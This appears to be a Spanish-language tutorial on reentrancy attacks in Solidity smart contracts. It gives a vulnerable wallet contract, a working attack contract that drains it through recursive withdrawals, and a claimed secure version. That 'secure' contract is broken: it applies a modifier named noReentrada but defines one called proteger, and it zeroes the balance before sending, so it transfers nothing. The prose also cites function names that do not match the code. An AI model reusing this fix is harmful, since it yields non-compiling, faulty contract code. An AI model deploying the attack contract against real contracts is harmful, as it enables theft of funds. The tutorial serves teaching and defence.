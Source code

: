# Solidity_Attacks

### Reentrancy Attack  

Para comprender mejor el ataque de reentrancia, primero debemos entender el funcionamiento de las funciones y las transacciones en Solidity. Cuando se llama a una función en un contrato inteligente, se inicia una nueva transacción en la red de Ethereum. Durante esta transacción, el contrato inteligente realiza ciertas operaciones y puede llamar a otras funciones o enviar Ether a otros contratos o direcciones. Cuando se llama a una función en un contrato inteligente, cualquier código adicional que se ejecute dentro de esa función se ejecuta en el mismo contexto de la transacción original.

Ahora, para entender mejor cómo funciona un ataque de reentrancia, imaginemos que un contrato inteligente tiene una función que permite a los usuarios retirar Ether de su cuenta en el contrato. Esta función, digamos "retirar()", realiza una serie de operaciones, como verificar el saldo de la cuenta del usuario, actualizar el saldo y enviar Ether a la dirección del usuario. Ahora, si un atacante malintencionado crea un contrato que llama a la función "retirar()" del contrato inteligente, pero luego vuelve a llamar a "retirar()" antes de que la transacción original se haya completado, el contrato malintencionado puede seguir retirando Ether del contrato inteligente de manera repetitiva, aprovechando el hecho de que la función "retirar()" aún no ha terminado de ejecutarse.

Para ilustrar esto con un ejemplo de código, aquí hay un contrato inteligente de ejemplo llamado "WalletInsegura.sol", que contiene una función "retirar()" vulnerable al ataque de reentrancia:

**WalletInsegura.sol**

```
// SPDX-License-Identifier: MIT
pragma solidity 0.8.0;

contract WalletInsegura {
    mapping (address => uint256) private balances;

    function balance() external view returns (uint256) {
        return address(this).balance;
    }

    function depositar() external payable {
        balances[msg.sender] += msg.value;
    }

    function retirar() external {
        require(balances[msg.sender] > 0, "Insufficient balance");

        (bool success, ) = payable(msg.sender).call{value: balances[msg.sender]}("");
        require(success, "Error al enviar eth");

        balances[msg.sender] = 0;
    }
}
```

En este contrato, los usuarios pueden depositar Ether en su cuenta en el contrato llamando a la función "deposit()", que simplemente actualiza el saldo del usuario en el mapa "balances". Sin embargo, la función "withdraw()" es vulnerable a un ataque de reentrancia. Si un atacante malintencionado crea un contrato que llama repetidamente a "withdraw()", como se muestra a continuación, el contrato puede retirar Ether del contrato inteligente de manera repetitiva hasta que se quede sin fondos.

Ahora, crearemos un contrato malintencionado llamado "Ataque.sol" para explotar la vulnerabilidad en el contrato "WalletInsegura.sol". El código para el contrato malintencionado:

**Ataque.sol**  

```
// SPDX-License-Identifier: MIT
pragma solidity 0.8.0;

interface IWallet {
    function depositar() external payable;
    function retirar() external;
}

contract Ataque {
    IWallet public immutable wallet;

    constructor(IWallet _wallet) {
        wallet = _wallet;
    }

    function atacar() external payable {
        require(msg.value == 1 ether, "Insuficiente eth");
        wallet.depositar{value: 1 ether}();
        wallet.retirar();
    }
    
    receive() external payable {
        if (address(wallet).balance >= 1 ether)
            wallet.retirar();
    }

    function balance() external view returns (uint256) {
        return address(this).balance;
    }
}
```

Este contrato malintencionado tiene una función llamada "ataque()" que corrobora que el atacante tenga ether y llama a la función "depositar()" ya que la función "retirar()" requiere que este tenga balance y luego llama a la función "retirar()" nuevamente antes de que se actualice el balance en el contrato vulnerable. 

Finalmente, el contrato malintencionado también tiene una función de fallback que se activa cuando se envía Ether al contrato sin especificar una función. Esta función comprueba el saldo del contrato "WalletInsegura.sol" y llama a la función "retirar()" si hay suficiente saldo disponible. Esto se repite hasta que el contrato malintencionado agota los fondos del contrato "WalletInsegura.sol".


Para protegerse contra el ataque de reentrancia, los desarrolladores deben asegurarse de que las funciones críticas del contrato inteligente estén diseñadas para evitar llamadas repetitivas o llamadas a otras funciones que puedan ser explotadas por un atacante malintencionado. Una forma común de hacerlo es usar el patrón de bloqueo de estado, que bloquea el estado del contrato inteligente durante la ejecución de una función para evitar que otras funciones se llamen antes de que la transacción original se complete.

Aquí está el código completo del contrato seguro "WalletSegura.sol" que utiliza el patrón de bloqueo de estado:

**WalletSegura.sol**
```
// SPDX-License-Identifier: MIT
pragma solidity 0.8.0;

contract WalletSegura {
    bool internal bloqueado;
    mapping (address => uint256) private balances;

    function balance() external view returns (uint256) {
        return address(this).balance;
    }

    function depositar() external payable {
        balances[msg.sender] += msg.value;
    }

    function retirar() external noReentrada{
        require(balances[msg.sender] > 0, "Insufficient balance");
        balances[msg.sender] = 0;
        (bool success, ) = payable(msg.sender).call{value: balances[msg.sender]}("");
        require(success, "Error al enviar eth");
    }

    modifier proteger() {
        require(!bloqueado, "Llamada de ataque");
        bloqueado = true;
        _;
        bloqueado = false;
    }
}
```

En este contrato, se ha agregado una variable booleana "bloqueado" para evitar que las funciones se llamen repetitivamente. La función "retirar()" ahora tiene un modificador personalizado "noReentrada()" que bloquea la función "retirar()" si ya está en ejecución. El modificador establece la variable "bloqueado" en verdadero al inicio de la ejecución de la función y la establece en falso al finalizar. Esto garantiza que la función "withdraw()" no se llame repetidamente hasta que se complete la transacción original.


